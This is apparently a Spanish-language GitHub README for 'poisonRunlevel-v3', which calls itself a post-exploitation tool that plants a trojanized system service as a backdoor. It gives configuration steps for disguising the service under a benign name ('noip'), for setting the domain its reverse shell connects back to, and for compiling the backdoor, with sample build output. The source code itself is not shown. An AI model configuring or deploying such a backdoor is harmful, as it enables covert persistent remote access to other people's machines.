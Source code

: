 # poisonRunlevel-v3
Post-Exploitation - Servicio troyanizado - Backd00r
poisonRunlevel v3. Demo
https://www.youtube.com/watch?v=f_HsdmacLNI

Editar:
<pre>
src/poisønRunLevel.c ## editar linea para cambiar nombre de servicio (backdoor)
    34	#define TROY "noip" // set nombre servicio troyano
</pre>

<pre>
src/backd00r.c ## setear nombre de dominio donde conectara reverse shell
    14	#define DOMINIO "nombredominio.cl"
</pre>

<pre>
Makefile ## editar Makefile nombre de salida (-o) de backdoor
     9		gcc src/backd00r.c -o noip 
</pre>

Compilar:
<pre>
[p0fk@blackbell poisonRunlevel-v3]$ make
rm -f opendoor poison unit.service
gcc src/backd00r.c -o noip 
gcc -std=c99 -std=gnu99 src/poisønRunLevel.c -o poison -Ilib/ 
</pre>

